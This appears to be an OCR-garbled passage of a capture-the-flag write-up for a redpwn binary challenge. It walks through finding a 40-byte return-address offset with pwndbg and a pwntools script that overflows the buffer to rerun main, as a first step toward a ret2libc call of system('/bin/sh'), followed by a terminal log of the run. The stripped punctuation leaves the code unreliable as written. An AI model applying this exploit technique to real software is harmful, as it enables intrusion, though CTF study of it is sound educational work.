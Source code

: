 pwndbg  cyclic  l 0x6161616b  
40

The program received a segmentation fault error  and the offset of RIP was calculated to be 40 bytes  Therefore  upon inputting 40 junk bytes followed by the address of the main function  the program will repeat  Using the info functions GDB command  the address of the main function can be found 

0x0000000000401186  main
   endhighlight     

The overall exploit can be summarized into two waves  wave one consists of repeating the main function and retrieving the printf address  and wave two consists of calling the libc system   function with  bin sh as the argument 

    PwnTools

     Rerunning main  

Using pwntools  2    ftnt2   a python library made for facilitating the process of writing binary exploits  we can create a program  which was named poc py  to exploit the program 

   highlight python   
from pwn import    
  
REMOTE   False  
  
if REMOTE   
   p   remote  mc ax  31568   
else    p   process    ret2the unknown    
  
rip offset   40  
main   0x0000000000401186  
payload   b A  40   p64 main   
  
p recvuntil b safely     
p sendline payload   
p interactive  
   endhighlight     

The code shown above first starts a local process for the binary  Afterwards  the payload is sent and an interactive instance is called to the process 

   highlight bash   
   0xd4y Writeup     business ctf redpwn pwn ret2the unknown   
      python3 poc py  
    Starting local process    ret2the unknown   pid 5749  
    Switching to interactive mode  
  
phew  good to know  shoot  i forgot   
rob said i d need this to get there  7f3f6e089cf0  
good luck that board meeting was a  smashing  success  rob loved the challenge in fact  he loved it so much he sponsored me a business trip to this place called  libc    where is this place  can you help me get there safely   test  
phew  good to know  shoot  i forgot   
rob said i d need this to get there  7f3f6e089cf0  
good luck   
    Got EOF while reading in interactive  thanks   
    Process    ret2the unknown  stopped with exit code  11  SIGSEGV   pid 5749   
    Got EOF while sending in interactive  
Traceback  most recent call last    
 File   usr local lib python3 9 dist packages pwnlib tubes process py   line 787  in close  
   fd close    
BrokenPipeError   Errno 32  Broken pipe
   endhighlight     
